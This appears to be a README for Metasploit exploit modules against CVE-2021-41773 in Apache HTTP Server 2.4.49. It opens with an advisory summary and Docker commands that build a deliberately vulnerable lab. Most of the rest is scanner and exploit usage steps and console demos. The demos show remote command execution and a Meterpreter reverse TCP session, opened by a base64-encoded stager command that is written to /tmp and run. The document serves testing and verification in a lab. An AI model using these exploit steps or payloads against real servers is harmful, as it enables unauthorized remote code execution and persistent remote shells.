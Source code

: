 # CVE-2021-41773: Path Traversal Zero-Day in Apache HTTP Server Exploited

On October 5, the Apache HTTP Server Project patched CVE-2021-41773, a path traversal and file disclosure vulnerability in Apache HTTP Server, an open-source web server for Unix and Windows that is among the most widely used web servers. According to the security advisory, CVE-2021-41773 has been exploited in the wild as a zero-day. The vulnerability was disclosed to the Apache HTTP Server Project on September 29 by Ash Daulton and the cPanel Security Team. However, the advisory does not indicate when exploitation of CVE-2021-41773 was detected, but it stands to reason that the exploitation drove the expedited release of a patch.

See: https://fr.tenable.com/blog/cve-2021-41773-path-traversal-zero-day-in-apache-http-server-exploited

## Make your lab

```
docker run -dit --name CVE-2021-41773 -p 8080:80 -v /opt/apache2.4.49:/usr/local/apache2/htdocs httpd:2.4.49
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-41773
docker start CVE-2021-41773
```

## Verification

List the steps needed to make sure this thing works

- [ ] Make your lab using commands above.

Use scanner module:

- [ ] Start `msfconsole`.
- [ ] `use auxiliary/scanner/http/apache_normalize_path`
- [ ] `set RHOSTS [IP]`
- [ ] `set RPORT 8080`
- [ ] `set SSL false`
- [ ] `run`

Use exploit module:

- [ ] Start `msfconsole`.
- [ ] `use exploit/linux/http/apache_normalize_path_rce`
- [ ] `set RHOSTS [IP]`
- [ ] `set RPORT 8080`
- [ ] `set SSL false`
- [ ] `set LHOST [IP]`
- [ ] `set VERBOSE true`
- [ ] `run`

## Demo

### CLI

```
msf6 exploit(linux/http/apache_normalize_path_rce) > set RHOSTS 172.20.4.12
RHOSTS => 172.20.4.12
msf6 exploit(linux/http/apache_normalize_path_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(linux/http/apache_normalize_path_rce) > set SSL false 
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf6 exploit(linux/http/apache_normalize_path_rce) > set target 1
target => 1
msf6 exploit(linux/http/apache_normalize_path_rce) > set CMD uname -a
CMD => uname -a
msf6 exploit(linux/http/apache_normalize_path_rce) > run

[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.12:8080 - The target is vulnerable to CVE-2021-41773.
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.12:8080 - Attempt to exploit for CVE-2021-41773
[!] http://172.20.4.12:8080 - Dumping command output in response
Linux 72f445e89670 5.14.0-1-amd64 #1 SMP Debian 5.14.6-3 (2021-09-28) x86_64 GNU/Linux

msf6 exploit(linux/http/apache_normalize_path_rce) > 
```

### Meterpreter

```
msf6 exploit(linux/http/apache_normalize_path_rce) > set RHOSTS 172.20.4.12
RHOSTS => 172.20.4.12
msf6 exploit(linux/http/apache_normalize_path_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(linux/http/apache_normalize_path_rce) > set SSL false
SSL => false
msf6 exploit(linux/http/apache_normalize_path_rce) > set LHOST 172.20.7.36
LHOST => 172.20.7.36
msf6 exploit(linux/http/apache_normalize_path_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(linux/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 172.20.7.36:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.12:8080 - The target is vulnerable to CVE-2021-41773.
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.12:8080 - Attempt to exploit for CVE-2021-41773
[*] http://172.20.4.12:8080 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] http://172.20.4.12:8080 - Generated command payload: echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwUByRRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d > /tmp/KmFqCNH; chmod +x /tmp/KmFqCNH; /tmp/KmFqCNH; rm -f /tmp/KmFqCNH
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 172.20.4.12
[*] Meterpreter session 3 opened (172.20.7.36:4444 -> 172.20.4.12:58678) at 2021-10-06 22:20:16 +0400
[!] This exploit may require manual cleanup of '/tmp/KmFqCNH' on the target

meterpreter > 
```
